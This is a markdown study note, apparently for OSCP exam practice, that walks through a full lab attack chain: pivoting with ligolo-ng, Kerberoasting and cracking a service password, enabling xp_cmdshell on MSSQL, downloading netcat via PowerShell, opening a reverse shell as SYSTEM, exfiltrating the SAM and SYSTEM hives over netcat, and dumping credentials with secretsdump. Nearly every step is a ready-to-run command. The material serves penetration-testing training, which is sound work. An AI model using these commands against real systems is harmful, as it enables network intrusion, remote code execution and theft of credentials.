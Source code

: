 ## pivotting technique<br>

1. Transfer the agent file to the machine hovering over both Network segments<br>
wget http://192.168.45.173/agent.exe -outfile agent.exe<br>

2. Start the ligolo server<br>
./proxy -selfcert -laddr 0.0.0.0:443<br>

3. Start the ligolo agent to connect to the server<br>
./agent.exe -connect 192.168.45.173:443 -ignore-cert

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/1.png?raw=true)

4. By this time, you should be able to access the internal machine by pivotting through the macine.

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/2.png?raw=true)

5. nmap the internal Ip address (We will focus on MSSQL in this example)

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/3.png?raw=true)

7. You can try Kerberoasting since you have access to the DC.
`impacket-GetUserSPNs -request -dc-ip 10.10.138.146 oscp.exam/Eric.Wallows`

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/4.png?raw=true)


8. Password crack the above hashes<br>
`hashcat -m 13100 kerberoas_hash /usr/share/wordlists/rockyou.txt`<br>
 sql_svc password  → Dolphin1


9. Access the MSSQL server
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth`
`EXEC sp_configure 'show advanced options', 1;`<br>
`RECONFIGURE;`<br>
`EXEC sp_configure 'xp_cmdshell', 1;`<br>
`RECONFIGURE;`<br>
`EXEC xp_cmdshell ' whoami '`<br>

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/5.png?raw=true)


10. Set the Port forwardinf IP so that the internal machines can access Kali

`listener_add --addr 0.0.0.0:888 --to 0.0.0.0:888`<br>
`listener_add --addr 0.0.0.0:4444 --to 0.0.0.0:4444`<br>
`listener_add --addr 0.0.0.0:80 --to 0.0.0.0:80`<br>
`listener_add --addr 0.0.0.0:8000 --to 0.0.0.0:8000`<br>

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/6.png?raw=true)


11. Check the internal segment ip of the machine

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/7.png?raw=true)


12. Start the lightweight Web Server

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/8.png?raw=true)



13. cmd download gave an error
`EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.138.147nc64.exe C:\Windows\Temp\nc64.exe';`<br>


14. powershell download worked
`EXEC xp_cmdshell 'powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.138.147/nc64.exe'',''C:\Users\Public\nc64.exe'')"';`


15. Let's try reverse and got a shell as system
`EXEC xp_cmdshell 'C:\Users\Public\nc64.exe 10.10.138.147 4444 -e powershell'`
`nc -lvnp 4444`

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/9.png?raw=true)


16. Obtain SAM and SYSTEM 

`C:\windows.old\windows\system32>nc64.exe 10.10.149.138 5555 < SAM`
`C:\windows.old\windows\system32>.\nc64.exe 10.10.149.138 5555 < SYSTEM`

16. Listen on the port to receive them

`nc -lvnp 5555 > SAM`
`nc -lvnp 5555 > SYSTEM`

17. Dump the creds 
`impacket-secretsdump -sam SAM -system SYSTEM LOCAL`

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/11.png?raw=true)


# References
https://medium.com/@saintlafi/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022
https://zenn.dev/megapachirisu/articles/bb0e9beb3f20ae
https://zenn.dev/codingotter/articles/79590426fecee5#chisel-dynamic-port-forwarding
https://medium.com/@Poiint/pivoting-with-ligolo-ng-0ca402abc3e9
https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16

